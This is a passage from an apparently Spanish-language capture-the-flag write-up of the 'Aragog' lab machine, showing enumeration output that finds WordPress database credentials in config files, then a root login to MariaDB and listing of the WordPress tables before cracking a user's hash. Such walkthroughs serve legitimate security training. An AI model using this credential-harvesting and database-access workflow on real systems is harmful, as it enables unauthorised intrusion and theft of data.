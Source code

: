 ```bash
-rw-r--r-- 1 root root 9731 Mar 19  2021 /usr/lib/modules/4.19.0-16-amd64/kernel/drivers/net/team/team_mode_activebackup.ko
-rwxr-xr-x 1 hagrid98 hagrid98 81 Apr  1  2021 /opt/.backup.sh

╔══════════╣ Searching passwords in config PHP files
/etc/wordpress/config-default.php:define('DB_PASSWORD', '...');                               
/etc/wordpress/config-default.php:define('DB_USER', 'root');
/usr/share/wordpress/wp-admin/setup-config.php: $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
/usr/share/wordpress/wp-admin/setup-config.php: define('DB_PASSWORD', $pwd);
/usr/share/wordpress/wp-admin/setup-config.php: define('DB_USER', $uname);
/usr/share/wordpress/wp-config-sample.php:define('DB_PASSWORD', 'password_here');
/usr/share/wordpress/wp-config-sample.php:define('DB_USER', 'username_here');
/usr/share/wordpress/wp-config.php:    define('DB_USER', 'wordpress');
```
Únicamente puse lo que se me hizo interesante.

Encontró la ruta del `wp-config.php`, esta puede contener el usuario y contraseña del admin de **WordPress**.

En los archivos BackUp, me da curiosidad ese archivo llamado `/opt/.backup.sh`. Lo analizaremos más adelante.

Por último, el archivo `/etc/wordpress/config-default.php` contiene un usuario y contraseña para la base de datos de **WordPress** que en este caso sería el **MySQL**.

<h2 id="MySQL">Enumerando Base de Datos de WordPress en MySQL y Crackeando Hash de Contraseña del Usuario Encontrado</h2>

Entremos y veamos qué bases de datos existen:
```bash
www-data@Aragog:/home$ mysql -u "root" -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 94
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.006 sec)
```

Usemos la base de datos de **WordPress** y veamos sus tablas:
```bash
MariaDB [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
```